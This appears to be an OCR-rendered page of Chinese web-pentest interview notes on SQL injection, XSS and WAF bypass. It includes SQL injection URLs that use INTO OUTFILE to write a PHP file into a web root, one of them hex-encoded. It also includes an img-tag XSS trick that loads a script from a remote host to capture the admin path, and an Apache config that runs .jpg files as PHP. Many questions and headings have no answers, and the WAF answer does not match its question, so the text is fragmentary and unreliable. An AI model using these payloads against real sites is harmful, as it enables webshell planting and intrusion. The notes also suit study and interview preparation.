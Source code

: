 ### **44、盲注和延时注入的共同点？**

### **46、sql注入写文件都有哪些函数？**

### **48、owasp 漏洞都有哪些？**

### **50、代码执行，文件读取，命令执行的函数都有哪些？**

### **51、img标签除了onerror属性外，还有其他获取管理员路径的办法吗？**

src指定一个远程的脚本文件，获取referer

### **52、img标签除了onerror属性外，并且src属性的后缀名，必须以.jpg结尾，怎么获取管理员路径。**

1）远程服务器修改apache配置文件，配置.jpg文件以php方式来解析 AddType application/x-httpd-php .jpg &lt;img src=http://xss.tv/1.jpg&gt; 会以php方式来解析

### **53、为什么aspx木马权限比asp大？**

aspx使用的是.net技术。IIS 中默认不支持，ASP只是脚本语言而已。入侵的时候asp的木马一般是guest权限…APSX的木马一般是users权限。

### **54、如何绕过waf？**

```
`http://127.0.0.1:81/sqli.php?id=1 into outfile 'C:\\wamp64\\www\\phpinfo.php' FIELDS TERMINATED BY '&lt;?php phpinfo(); ?&gt;'`</code>
<code>`http://127.0.0.1:81/sqli.php?id=-1 union select 1,0x3c3f70687020706870696e666f28293b203f3e,3,4 into outfile 'C:\\wamp64\\www\\phpinfo.php'`
```

### SQL注入防护

### SQL头注入点

### 宽字节注入产生原理以及根本原因

#### 在哪里编码

#### 解决办法

> 
<pre>UPDATE user SET password='mypass', homepage='http://xxx.net', userlevel='3' WHERE id='$id'</pre>


> 
<pre>UPDATE user SET password='MD5($password)', homepage='$homepage' WHERE id='' OR username='admin'</pre>


宽字节注入
